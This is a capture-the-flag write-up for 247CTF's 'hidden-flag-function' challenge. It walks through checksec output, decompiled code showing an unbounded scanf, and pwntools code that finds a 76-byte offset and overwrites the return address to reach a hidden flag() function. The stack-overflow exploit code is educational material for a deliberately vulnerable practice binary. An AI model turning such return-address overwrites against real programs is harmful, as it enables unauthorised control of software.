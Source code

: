 # Hidden Flag Function

## Introduction

`hidden-flag-function` is a 125 point binary-exploitation challenge from 247CTF. The description states:

> Can you control this applications flow to gain access to the hidden flag function?

## Information Gathering

### Hint #1

Hints are for financial supporters of the site, so I don't have access.

### Vulnerability Mitigations

```shell
$ checksec ./hidden_flag_function
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis

Opening the program in Binary Ninja, we see that `main` looks like the following:

```c
int32_t main(int32_t argc, char** argv, char** envp) {
    void* const var_4 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*(int32_t*)stdout, nullptr);
    puts("What do you have to say?");
    chall();
    return 0;
}

int32_t chall() {
    void loc;
    return __isoc99_scanf("%s", &loc);
}
```

As the name suggests, we also found a 'hidden' flag function called 'flag()':

```
int32_t flag() {
    void buf;
    fgets(&buf, 0x40, fopen("flag.txt", "r"));
    return printf("How did you get here?\nHave a fl…", &buf);
}
```

From these three functions, we can gleam that the program asks for user input via `scanf` and then returns. Given that we can control the input, we can provide enough input that overflows the `loc` buffer on the `chall` stack frame and overwrite the return address with the address of `flag()`. Let's test this theory out by just trying to crash the program.

### Dynamic Analysis

Using the above strategy, we see that we can indeed crash the program with long enough input:

```python
exe = ELF('./hidden_flag_function')
io = process([exe.path])
io.sendlineafter(b'What do you have to say?', cyclic(500))
io.recvall()
[*] Process 'hidden_flag_function' stopped with exit code -11 (SIGSEGV)
```

We can then get the corefile and see what the faulting address is to determine the offset that overwrote the return address.

```python
core = io.corefile
cyclic_find(core.fault_addr) # yields 76.
```

Cool, so now all that is left is sending the address of the symbol `flag()` at that offset and sending it to the program. It does not take any arguments, so we don't have to worry about setting up the stack. We can do that with pwntools like:

```python
payload = fit({
        76: exe.symbols['flag']
    })
```

